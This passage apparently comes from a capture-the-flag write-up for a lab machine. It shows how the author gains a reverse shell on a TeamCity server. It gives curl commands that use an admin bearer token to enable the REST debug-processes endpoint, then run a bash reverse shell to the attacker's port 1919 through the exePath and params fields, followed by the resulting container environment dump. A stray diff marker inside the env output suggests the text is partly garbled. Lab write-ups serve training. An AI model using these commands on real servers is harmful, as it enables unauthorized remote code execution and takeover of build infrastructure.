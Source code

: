 ```markdown
> curl –X POST "http://teamcity.runner.htb//admin/dataDir.html?action=edit&fileName=config/internal.properties&content=rest.debug.processes.enable=true" -H "Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.MlF2QndBSlJYSXdQSUJYY2VxZWN4QTBCLWdR.NGQ2OTY2ZmUtOWY4Yi00MWFhLThkYTgtOTY3OTAyY2E1N2E2" -H "Content-Type: text/plain"
```
Now you can issue commands. Insert the binary name in the `exePath` parameter, and the rest of arguments in as many `params` fields as you need. The following line contains the payload `/bin/bash –c bash -i >& /dev/tcp/10.10.xxx.xxx/1919 0>&1`
```markdown
> curl –X POST "http://teamcity.runner.htb/app/rest/debug/processes?exePath=/bin/bash&params=-c&params=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.xxx.xxx%2F1919%200%3E%261" -H "Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.MlF2QndBSlJYSXdQSUJYY2VxZWN4QTBCLWdR.NGQ2OTY2ZmUtOWY4Yi00MWFhLThkYTgtOTY3OTAyY2E1N2E2" -H "Content-Type: text/plain"
<html>
<head><title>504 Gateway Time-out</title></head>
<body>
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```
A reverse shell for user `tcuser` is received on port 1919.

![Untitled3](https://github.com/user-attachments/assets/085a0079-25de-4f35-80d0-520f1a079279)

At a first glance, this looks like a container, let's have a look at the `env` variables to verify this.
```markdown
> env
TEAMCITY_LOGS_PATH=/opt/teamcity/bin/../logs
HOSTNAME=647a82f29ca0
LANGUAGE=en_US:en
JAVA_HOME=/opt/java/openjdk
```diff
+TEAMCITY_ENV=container
PWD=/
TEAMCITY_LOGS=/opt/teamcity/logs
TEAMCITY_RESTART_LOCK_FILE_PATH=/opt/teamcity/bin/../logs/teamcity.lock
CATALINA_OPTS= -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 -server -Xmx2g -XX:ReservedCodeCacheSize=640m -Dteamcity.configuration.path="../conf/teamcity-startup.properties" -Dlog4j2.configurationFile="file:/opt/teamcity/bin/../conf/teamcity-server-log4j.xml" -Dteamcity_logs="/opt/teamcity/bin/../logs" -Djava.awt.headless=true
TEAMCITY_SERVER_MEM_OPTS=-Xmx2g -XX:ReservedCodeCacheSize=640m
TEAMCITY_DATA_PATH=/data/teamcity_server/datadir
HOME=/opt/teamcity
LANG=C.UTF-8
CATALINA_PID=/opt/teamcity/bin/../logs/teamcity.pid
TEAMCITY_SERVER_OPTS=-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005
TEAMCITY_BIN_DIRECTORY=/opt/teamcity/bin
TEAMCITY_SERVER_SCRIPT=/opt/teamcity/bin/teamcity-server.sh
SHLVL=2
JDK_JAVA_OPTIONS= --add-opens jdk.management/com.sun.management.internal=ALL-UNNAMED -XX:+IgnoreUnrecognizedVMOptions --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED --add-opens=java.base/java.util.concurrent=ALL-UNNAMED --add-opens=java.rmi/sun.rmi.transport=ALL-UNNAMED
TEAMCITY_DIST=/opt/teamcity
CATALINA_TMPDIR=/opt/teamcity/temp
LC_ALL=en_US.UTF-8
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
OLDPWD=/opt/teamcity/conf
```
